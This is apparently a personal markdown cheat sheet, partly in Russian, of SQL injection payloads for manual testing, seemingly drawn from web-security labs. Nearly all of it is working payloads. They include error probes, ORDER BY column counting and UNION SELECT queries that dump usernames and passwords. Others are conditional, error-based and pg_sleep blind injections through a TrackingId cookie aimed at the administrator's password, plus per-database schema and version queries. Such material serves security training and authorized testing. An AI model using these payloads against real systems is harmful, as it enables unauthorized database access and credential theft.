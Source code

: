 # Ручное тестирование

### Определение точки ввода
1. Поиск ошибки через указание ошибочного запроса пользователя
```SQL
'
" 
--
```

2. Determining the number of columns required
```SQL
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--

# MySQL and Microsoft SQL Server
'+UNION+SELECT+'abc','def','gho'#
'+UNION+SELECT+@@version,+NULL#

# Non Oracle
' UNION SELECT 'abc','def'--
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--
'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--
'+UNION+SELECT+NULL,username||'~'||password+FROM+users-- # in case of data in 1 param

# Oracle
' UNION SELECT 'abc','def' FROM dual--
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--
'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--
```

3. Finding columns with a useful data type
```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```

4. Conditional
```sql
Cookie: TrackingId=xyz' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a
Cookie: TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

5. Blind
```sql
Cookie: TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
Cookie: TrackingId=x'||pg_sleep(10)--
```

### Извлечение информации через уязвимый параметр

1. Database version
```SQL
Oracle: 	UNION SELECT BANNER, NULL FROM v$version--
            SELECT banner FROM v$version
            SELECT version FROM v$instance
            SELECT * FROM v$version
Microsoft:	SELECT @@version
MySQL:  	SELECT @@version
PostgreSQL:	SELECT version()
```

2. Retrieving multiple values within a single column
```SQL
' UNION SELECT NULL,username || '~' || password FROM users,NULL--

Oracle: 	'foo'||'bar'
Microsoft	'foo'+'bar'
PostgreSQL	'foo'||'bar'
MySQL:  	'foo' 'bar' [Note the space between the two strings]
            CONCAT('foo','bar')
```

3. Database contents / Find TABLE NAME
```SQL
#Oracle	
SELECT * FROM all_tables
SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'

#Microsoft
table_name||FROM+information_schema.tables
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'

# PostgreSQL из первого параметра. Второй используется как завершение логики запроса
UNION+SELECT+table_name,+NULL+FROM+information_schema.tables-- # Извлекаем название ТАБЛИЦ
UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_tecdsk'-- # Извлекаем название строк
UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef-- # Извлекаем содержимое строк

# MySQL	
SELECT * FROM information_schema.tables
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```

# Автоматизация тестирования
```
sqlmap

```
